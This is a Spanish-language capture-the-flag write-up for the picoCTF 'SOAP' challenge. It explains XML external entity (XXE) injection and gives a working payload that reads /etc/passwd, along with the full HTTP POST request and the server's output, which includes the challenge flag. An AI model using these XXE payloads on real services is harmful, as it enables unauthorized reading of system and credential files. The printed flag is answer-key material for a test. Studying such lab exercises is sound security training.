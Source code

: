 # SOAP
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:56292/)

## Solución
Que es XXE ?
[Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)


### Prueba inicial

- si remplaza, el 1 arriba , va abajo y obtendremos la info
```
[<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY tot "3"> ]>
<data><ID>&tot;</ID>
</data>](<%3C?xml version="1.0" encoding="UTF-8"?%3E
<!DOCTYPE replace [<!ENTITY example "1"> ]>
<data><ID>&example;</ID></data>>)
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<data><ID>&test;</ID></data>
```


### Inyeccion

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:56292
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://saturn.picoctf.net:56292/
Content-Type: application/xml
Content-Length: 113
Origin: http://saturn.picoctf.net:56292
Connection: close
Cookie: PHPSESSID=lj3gcm06t7pt9nsbdvqd1uerm6



<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY tot SYSTEM "/etc/passwd"> ]>
<data><ID>&tot;</ID>
</data>
```


```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```


```

```